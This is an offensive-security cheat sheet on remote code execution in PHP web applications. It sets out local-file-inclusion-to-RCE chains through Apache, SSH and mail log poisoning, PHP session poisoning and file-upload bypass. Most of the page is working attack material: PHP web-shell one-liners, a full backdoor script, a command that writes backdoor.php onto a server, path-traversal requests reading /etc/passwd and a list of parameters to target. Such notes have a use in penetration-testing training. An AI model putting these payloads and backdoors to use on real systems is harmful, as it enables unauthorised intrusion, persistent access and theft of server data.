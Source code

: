 # 🌡 Remote Code Execution

![](https://media2.giphy.com/media/3orieNQgdcxedKjA3e/giphy.gif?cid=ecf05e47vcaxf58vv1mfubdyh4asgd6u8a0t54rnppx2k4o4\&rid=giphy.gif\&ct=g)

## Brief

{% hint style="info" %}
If an attacker **gains control** of a target computer through some sort of vulnerability, and they also gain the power to **execute commands on that remote computer** this process is called **Remote Code Execution (RCE)**

* It is one of the cyber-attacks where an attacker can remotely execute commands on someone’s computer
* It usually occurs due to malicious malware downloaded by the host and can happen regardless of the geographic location of the device.



**How is it possible ?**

_With RCE, hackers can edit or destroy important files, steal confidential data, perform DDoS (Distributed Denial of Service) attacks, and compromise the entire system._&#x20;

**The attacks can be occurred due to:**

* _External user input unchecked_
* _Access control is poor_
* _Authentication measures are not properly done_
* _Buffer overflow._
{% endhint %}

## LFI 2 RCE

### LFI to RCE via Log files

{% hint style="info" %}
_a.k.a : log poisoning attack._

Used to gain remote command execution on the webserver.

The attacker needs to include a malicious payload into services log files such as - Apache, SSH, etc. Then, the LFI vulnerability is used to request the page that includes the malicious payload.

Exploiting this kind of attack depends on various factors, including the design of the web application and server configurations.

For example, a user can include a malicious payload into an apache log file via **User-Agent or other HTTP headers**. In SSH, the user can inject a malicious payload in the **username section**.
{% endhint %}

#### **How To**&#x20;

**Apache Log Files**

```bash
# /var/log/apache2/access.log
# set inside the user agent or inside a GET parameter a php shell like :
<?php system($_GET['cmd']); ?>
# same for /proc/self/environ
```

**Via Emails**

```bash
# Send a mail to a internal account (user@localhost) containing : 
<?php echo system($_REQUEST["cmd"]); ?> 
# and access to the mail /var/mail/USER&cmd=whoami
```

**With SSH**

```bash
# ssh
ssh <?php system($_GET["cmd"]);?>@ip_address_server
# then look at /var/log/auth.log&cmd=whoami

# ftp
# you can do the same as ssh
# look at /var/log/messages
```

**Some PHP parameters used as user agent :**

```php
# php basic info
<?php phpinfo();?>
<?php system('id'); ?>

# php rce with cmd parameter
<?php system($_GET['cmd']); ?> //in user-agent burp or browser
<?php echo system($_GET['cmd']); ?> //in user-agent burp or browser
<?php system(\$_GET['cmd']); ?> //in user-agent curl 

    # to execute the RCE
     GET /example/exploit.php?command=id HTTP/1.1 

# php one-liner file reader
<?php echo file_get_contents('/path/to/target/file'); ?> 

//PHP Backdoor Code:
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

### **Staged PHP RCE**

1. Confirm RCE (Using CMD + _whoami_/_id_ command)
2. Create a new **.php** file using `cmd=echo '<?php XXX ?> > backdoor.php'`

**How To :**

```bash
# creates a new php web file with RCE capabilities
cmd=echo '<?php system($_GET['cmd']); ?>' > backdoor.php

# Use & for two URL parameters ex:
http://0.0.0.0/index.php?file=app_access.log&cmd=whoami

http://10.10.49.156/index.php?err=./includes/logs/app_access.log&cmd=echo%20%27%3C?php%20system($_GET[%27cmd%27]);%20?%3E%27%20%3E%20backdoor.php
```

### LFI to RCE via PHP Sessions

**Enumerate** the PHP configuration file, and identify where the PHP sessions files are stored.

Then, we include a **PHP code** into the session and call the file via LFI.

Once located PHP session file storaging location, we can control the value of their session, it can be used to a chain exploit with an LFI to gain remote command execution.

It must stores the value of the username into the session even if you are not logged.

```bash
# Common locations that the PHP stores in sessions info :
c:\Windows\Temp
/tmp/
/var/lib/php5
/var/lib/php/session
```

## **File Upload Bypass 2 RCE**

```bash
# If you can upload a file, just inject the shell payload in it :
<?php system($_GET['c']); ?>
# check Web Vulnerabilities > File Upload Bypass for more techniques
# EXAMPLE : change MIME type to image/png
# access http://example.com/index.php?page=path/to/uploaded/file.php?c=id
# In order to keep the file readable it is best to inject into the metadata of the pictures/doc/pdf
```

## **PHP sessions**

```bash
# Check if the website use PHP Session (PHPSESSID)
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
# In PHP these sessions are stored into /var/lib/php5/sess\[PHPSESSID]_ files
# /var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
#user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
# Set the cookie to 
<?php system('cat /etc/passwd');?>

login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
# Use the LFI to include the PHP session file
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8
```

### TOP 25 vulnerable parameters

```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload
```

### Check also

* Apache log poisoning
* SSH log poisoning

{% embed url="https://www.exploit-db.com/papers/12885" %}
